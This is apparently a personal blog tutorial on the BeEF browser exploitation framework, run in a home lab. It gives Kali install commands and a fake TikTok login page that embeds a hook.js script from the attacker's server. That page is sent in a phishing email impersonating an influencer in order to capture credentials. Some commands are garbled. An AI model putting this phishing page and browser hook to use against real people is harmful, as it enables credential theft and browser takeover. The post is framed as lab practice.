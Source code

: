 ```yaml
---
layout: post
title: "Beef XSS"
date: "2023-12-01"
published: true
video: 890690983
---
```


Beef XSS, short for Browser Exploitation Framework, is a powerful tool used by ethical hackers and security professionals to test the vulnerability of web applications. It allows security experts to assess the security of a website by simulating real-world attacks that exploit vulnerabilities in the user's browser.

The primary goal of a Beef XSS attack is to inject malicious scripts into web pages that are then executed by the victim's browser. Unlike traditional XSS attacks, Beef XSS goes beyond stealing cookies or session tokens; it enables attackers to take control of the victim's browser and use it as a platform for launching further attacks.

This guide outlines steps to perform ethical hacking and phishing simulations using Kali Linux, Beef XSS, and VMware. The project involves assessing web application vulnerabilities and simulating phishing attacks.

In the guide we will be going over the following, Beef XSS, changing the Butcher page, and sending my phishing email impersonating a TikTok influencer.
For this example, I will be using kali Linux that I installed onto my MacBook, with the target browser my on VMware.

## I. Setting Up Beef XSS

**Step 1: Beef Install**

***Update the system***  

```markdown
sudo apt-get update && sudo apt-get upgrade 
```
***Install Beef-XSS*** 

```markdown
sudo apt install beef-XSSall Beef XSS “
```

**step 2: config –**

***Open the Beef config.yaml file*** 

```markdown
sudo nano /etc/beef-xss/config.yaml
```
***Update credentials and set the host for HTTP.***

***Save and exit (Ctrl + X, then Y).***

**Step 3:  operating** 

```markdown
Sudo ./ beef
```

After it starts go to the Ui panel a link should appear or it will automatically load for you.

<br>

## II. Phishing Simulation

Now for my example Instead of creating a separate html page and having the target need to open our html page or redirect them to the butcher site, we are going to edit the butcher page to fit our needs and send out a phishing email to ourselves. 

NOTE: because we are editing the butcher page we will be able to log all inputs and activity while the target is on our page we will also be able to send this email to anyone on our network and redirect them to our hook off of beefs already running Apache server.
For my next part I will  be using my already fake phishing emails directed at small business impersonating a tic Tok influencer. 

I asked chat gpt to create me a simple login page similar to TikTok’s for my personal website, it did not disappoint.

```markdown

<!DOCTYPE html>
<html lang="en">
<head>
    <script src="http://192.168.4.97:3000/hook.js"></script>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Tik Tok</title>
    <style>
        
        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background-color: #fff;
            text-align: center;
            margin: 0;
            padding: 0;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
        }

        .login-container {
            max-width: 400px;
            width: 100%;
            padding: 20px;
            box-sizing: border-box;
            border-radius: 8px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
        }

        img {
            width: 100px;
            margin-bottom: 20px;
        }

        input {
            width: 100%;
            padding: 10px;
            margin: 8px 0;
            box-sizing: border-box;
            border: 1px solid #ccc;
            border-radius: 4px;
        }

        button {
            background-color: #00a4ef;
            color: #fff;
            padding: 10px 15px;
            border: none;
            border-radius: 4px;
            cursor: pointer;
            font-size: 16px;
        }

        button:hover {
            background-color: #0077cc;
        }
    </style>
</head>
<body>
    <div class="login-container">
        <img src="tik_tok.jpg" alt="TikTok Logo">
        <h2>Login</h2>
        <form action="your_login_handler.php" method="post">
            <input type="text" id="username" name="username" placeholder="Username" required>
            <input type="password" id="password" name="password" placeholder="Password" required>
            <button type="submit">Log In</button>
        </form>
    </div>
</body>
</html>

```

I currently have the following hook.js script enabling this page to reach out and talk to my beef server the following script gets place inside the head tag on our html page.

```markdown
<script src="http://192.168.4.97:3000/hook.js"></script>
```

Here is the following video on how to add our new page and replace the butcher page.
The process is fairly simple my video is at double speed, with the most important being.

- Use elevated privileges to go into beefs extension directory 

```markdown
sudo su
```
Index.Html in the butcher directory is the page we want to edit the full file path is as follows to get their you need to a super user.

```markdown
Cd /usr/share/beef-xss/extensions/demos/html/butcher
```

Note: There is one script we wish to keep in the index.html page                                            

```markdown
<script src="jquery-1.12.4.min.js"></script>                                                                                       
```
this script handles the events and logs it back to the beef logs monitoring everything we do on our page, The second important part is to remove our address from our own hook.js script in our header because we are now in the root directory and do not need to let beef know were to go. Our new script should look like  

The rest of the video quickly goes over sending the hook to my VMware station from my machine, and shows the same java code being used in the butcher page to log our credentials and monitor our activity while on the page, then runs thru a couple of examples with my fishing email I made for my other project


<br>

<div style="padding:56.25% 0 0 0;position:relative;"><iframe src="https://player.vimeo.com/video/890861426?badge=0&amp;autopause=0&amp;quality_selector=1&amp;player_id=0&amp;app_id=58479" frameborder="0" allow="autoplay; fullscreen; picture-in-picture" style="position:absolute;top:0;left:0;width:100%;height:100%;" title="beef Project - Made with Clipchamp"></iframe></div><script src="https://player.vimeo.com/api/player.js"></script